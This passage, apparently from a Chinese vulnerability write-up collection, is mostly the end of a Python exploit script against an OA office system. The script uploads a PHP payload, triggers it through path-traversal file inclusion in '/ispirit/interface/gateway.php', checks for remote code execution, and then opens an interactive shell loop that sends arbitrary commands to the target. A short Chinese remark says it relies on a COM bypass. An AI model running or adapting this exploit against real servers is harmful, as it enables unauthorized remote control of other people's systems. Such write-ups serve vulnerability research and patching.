$stroutput;\\r\\n?>\\n\\r\\n-----------------------------27723940316706158781839860668\\r\\nContent-Disposition: form-data; name=\\"P\\"\\r\\n\\r\\n1\\r\\n-----------------------------27723940316706158781839860668\\r\\nContent-Disposition: form-data; name=\\"DEST\_UID\\"\\r\\n\\r\\n1222222\\r\\n-----------------------------27723940316706158781839860668\\r\\nContent-Disposition: form-data; name=\\"UPLOAD\_MODE\\"\\r\\n\\r\\n1\\r\\n-----------------------------27723940316706158781839860668--\\r\\n"
    req = requests.post(url=upurl, headers=headers, data=data)
    filename = "".join(re.findall("2003\_(.+?)\\|",req.text))
    in\_url = url + '/ispirit/interface/gateway.php'
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "X-Forwarded-For": "127.0.0.1", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded"}
    data = "json=
{\\"url\\":\\"../../../general/../attach/im/2003/%s.jpg\\"}&cmd=%s" % 
(filename,"echo php00py")
    include\_req = requests.post(url=in\_url, headers=headers, data=data)
    if  'php00py' in include\_req.text:
        print("\[+\] OA RCE vulnerability ")
        return filename
    else:
        print("\[-\] Not OA RCE vulnerability ")
        return False
def oa\_rce(url, filename,command):
    url = url + '/ispirit/interface/gateway.php'
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded"}
    data = "json=
{\\"url\\":\\"../../../general/../attach/im/2003/%s.jpg\\"}&cmd=%s" % 
(filename,command)
    req = requests.post(url, headers=headers, data=data)
    print(req.text)

if \_\_name\_\_ == '\_\_main\_\_':
        if len(sys.argv) < 2:
            print("please input your url python oa\_rce.py http://127.0.0.1:8181")
        else:
            url = sys.argv\[1\]
            filename = oa(url)
            while filename:
                try:
                    command = input("wran@shelLhost#")
                    if command == "exit" or command == "quit":
                        break
                    else:
                        oa\_rce(url,filename,command)
                except KeyboardInterrupt:
                    break
```



脚本用的是 COM 绕过

end

  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
